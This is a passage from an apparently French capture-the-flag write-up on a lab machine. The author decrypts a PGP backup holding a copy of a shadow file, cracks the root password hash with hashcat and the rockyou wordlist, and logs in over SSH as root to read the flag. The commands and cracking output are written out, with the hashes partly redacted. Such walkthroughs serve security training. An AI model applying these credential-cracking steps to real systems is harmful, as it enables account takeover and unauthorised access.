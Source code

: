 Nous pouvons ajouter la clé privée à notre trousseau avec le mot de passe que nous venons de craquer, et déchiffrer le contenu de l'archive chiffrée `backup.pgp`. Le contenu s'avère être un fichier texte renfermant entre autres les hashes de mot de passe des comptes root et melodias (une copie du fichier shadow que nous espérions récupérer depuis le serveur {% include dictionary.html word="FTP" %} plus tôt)

```bash
gpg --import private.asc
gpg -o backup -d backup.pgp
cat backup
root:$6$07nYFaYf$F4V[...expurgé...]BtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
[...expurgé pour brièveté...]
melodias:$1$xDhc6S6G$IQHU[...expurgé...]jEQtL1:18120:0:99999:7:::
```

### 3.4 Craquer le mot de passe

En lançant {% include dictionary.html word="Hashcat" %} sur les 2 hashes en parallèle, nous obtenons un résultat pour le compte root.

```bash
hashcat -m 1800 '$6$07nYFaYf$F4V[...expurgé...]BtaMZMNd2tV4uob5RVM0' /usr/share/wordlists/rockyou.txt
```

{% capture spoil %}
$6$07nYFaYf$F4V[...expurgé...]BtaMZMNd2tV4uob5RVM0:h[...expurgé...]i

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$07nYFaYf$F4V[...expurgé...]BtaMZMNd2tV4uob5RVM0
Time.Started.....: Sat Aug 31 18:31:07 2024 (3 secs)
Time.Estimated...: Sat Aug 31 18:31:10 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2442 H/s (4.14ms) @ Accel:512 Loops:128 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7168/14344384 (0.05%)
Rejected.........: 0/7168 (0.00%)
Restore.Point....: 6656/14344384 (0.05%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidate.Engine.: Device Generator
Candidates.#1....: 111111111111111 -> droopy

Started: Sat Aug 31 18:30:22 2024
Stopped: Sat Aug 31 18:31:11 2024
{% endcapture %}
{% include elements/spoil.html %}

## 4. Connexion à la machine

Nous pouvons donc nous connecter en {% include dictionary.html word="SSH" %} à la machine avec le compte root et le mot de passe que nous venons de craquer. Ne reste plus qu'à récupérer le flag root pour terminer cet exercice.

```bash
ssh root@10.10.106.181
cat root.txt
f70645[...expurgé...]cebdce
```
